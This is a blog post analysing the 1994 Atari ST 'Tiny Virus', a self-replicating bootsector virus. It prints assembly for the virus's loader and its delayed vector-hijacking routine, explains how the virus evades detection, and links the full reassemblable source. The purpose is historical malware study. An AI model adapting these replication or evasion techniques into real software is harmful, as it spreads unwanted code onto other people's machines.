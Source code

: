Title: The (nearly) Tiny Virus from Lucky Lady
Slug: NotSoTinyVirus
Date: 2024-09-08 11:24
Location: San Francisco / US
Category: Atari ST, Virus
Lang: en
Author: shazz
status: published
summary: Short version for index and feeds

## Introduction

After the pleasure to document the BHP virus, it was somewhat logical to continue with the Tiny Virus which claims... to be tiny. As I found the BHP virus to be a quite good and small template for virus replication, let's see if the Tiny Virus, released at least 6 years later (in 1994) was doing better.

The scope of this virus is pretty identical, it doesn't trigger any symptoms or implement reset resistant strategies, it focuses on replication and staying alive.

## High level specs

To summarize and before going into the details, here are the main characteristics of the Tiny Virus:

 - **executable bootsector** virus
 - Delay the custom `hdv_bpb` vector to be detected by Virus killers using a VBL-timed routine to replace the original **HDV_BPB vector**
 - replicates itself on A only but on any floppy inserted.
 - is relatively small, 192 bytes (BHP is 166 bytes)
 - it obfuscates (gently) the `rwabs` system call to avoid static code analysis detection.


## The details

The only new feature in this Tiny Virus is this routine to delay the virus installation in the `hdv_bpb` vector. 

Using a VBL routine added to the last slot of the VBL List (to limit the risks to be overwritten), it will wait 5376 VBLs to install its `hdv_bpb` vector. I think this is smart, takes few bytes and may work!

### The Loader

The Bootcode starts at 0x1E, but with an empty long but it seems the TOS doesn't care and jump to the first "executable" instruction. Then as soon as copied in `DISKBUF` and being executed, it will

 - Copy itself in his hidden low RAM (in the user vectors) location: `0x01C0`
 - Set the VBL routine in the last lost of VBL_LIST and enable it using the `VBLSEM` register

```asm
; ----------------------------------------------------------------------------------------------------------
; Empty long at branch address
; ----------------------------------------------------------------------------------------------------------

        DC.L   0
; ----------------------------------------------------------------------------------------------------------
; START
; ----------------------------------------------------------------------------------------------------------

START:
        MOVEA.W   #RAM_LOCATION,A0                  ; A0 = $1C0 (448)
        LEA       START(PC),A1                    
        MOVE.W    #(END-START),D0                   ; for d0 = 188 to 0 (0xBC)
.copy:
        MOVE.B    (A1)+,(A0)+                       ; copy 189 bytes to RAM_LOCATION (1C0)
        DBF       D0,.copy

        MOVE.L    #0,VBLCLOCK_LOW.L                 ; reset VBL counter            
        MOVE.W    #VBL_ROUTINE_ADDR,VBL_LIST+2      ; set VBL_ROUTINE in VBL_LIST routine 7 low nibble (enough as in lower RAM)    move.l #$12e, $4ec.l vs #$252
        MOVE.W    #1,VBLSEM.L                       ; enable VBL routine
        RTS 
```

### The VBL routine

The VBL routine, called at each VBL, will check:

 - Check the current VBL counter (`VBLCLOCK_LOW`) and if it is equals to 5376, it will:
    - Save the current `hdv_bpb` vector.
    - Install the `hdv_bpb` vector .

Note that, when the `VBLCLOCK_LOW` will loop, the old hdv_bpv vector will be deleted... but I guess that's acceptable, every 3 years with no reset :D

```asm
; ----------------------------------------------------------------------------------------------------------
; VBL routine
; Protection mechanism, Used  to set again, in case of, the HDV_BPB vector, every ~100s
; ----------------------------------------------------------------------------------------------------------        
VBL_ROUTINE:                        
        MOVEA.L   #CHECK_DELAY,A1                   ; A1 = CHECK_DELAY (0x1500 = 5376)
        CMPA.L    VBLCLOCK_LOW.L,A1                 ; if VBLCLOCK_LOW == 5376 (around 100s)
        BNE       .not_yet
        MOVE.L    HDV_BPB.L,OLD_HDV_BPB_VECTOR.L    ; Save old HDV_BPB vector to OLD_HDV_BPB_VECTOR (0x140)
        MOVE.L    #HDV_BPB_VECTOR_ADDR,HDV_BPB.L    ; Set new hdv_pbp vector to HDV_BPB_VECTOR (0x1EE)
.not_yet:
        RTS 
```

### The HDV_BPB vector

Now that the virus is installed in memory, and that the VBL routine has set the `hdv_bpb` vector, it will wait any call to BIOS `Getbpb()` which retrieves the `BPB` (Bios Parameter Block) of the floppy disk. 
This vector will:

 - Copy the bootcode from upper RAM to the disk buffer currently read by `Getbpb()`
   - Note the code copies 222 bytes of bootcode which is more of the size of the bootcode itself.
 - Set the bootsector branch
 - Use `Protobt` Xbios TRAP to build an executable bootsector from the disk buffer
 - Use `Rwabs` Bios TRAP to write the bootsector on A:
   - Note that the `Rwabs` TRAP opcode is "obfuscated" (`MOVE.L #$40001,-(sp)`) by merging it with the `mode` parameter to avoid detection.
 - Finally jumps to the original `hdvbpb` vector

## Conclusion

That's it! Is the challenge solved? From my point of view, not really on the fact the virus is that tiny, its replication mechanism is too basic (especially compared to the BHP Virus) and relatively easy to spot by an antivirus even if TRAP calls to `FLOPRD` and `FLOPWR` were avoided and TRAP call to `Rwabs` was a little obfuscated. But the obvious `Protobt` is like a red nose, impossible to miss.

Nevertheless, the delay trick to setup the `hdv_bpb` vector and avoid bootsectors virus killers is very small and ingenious. So... this part, I really appreciated it.

As usual, you can download the full commented, and tested identical to the original virus after assembling with [vasm](http://www.compilers.de/vasm.html) here: [TINY.S]({attach}sources/TINY.S)


## Appendices

### Fun facts

 - In the UVK book, Richard wrote "This was the smallest virus so far, occupying only 34% of a bootsector". I disagree, not the smallest (192 bytes, and a little more than 34%), BHP was smaller (166 bytes, 14% less)
 - At the end of the virus, Lucky Lady signed it with some not-used data: "DC.B 'TINY'"
 - In the OEM bytes, the text "KOBOL" is written, maybe a tribute to the KOBOLD 2 virus?

### Still to do

 - Nothing

## Run the virus!

{% from '/html/macros/emulator.html' import emulator %}
{{ emulator("TINY") }}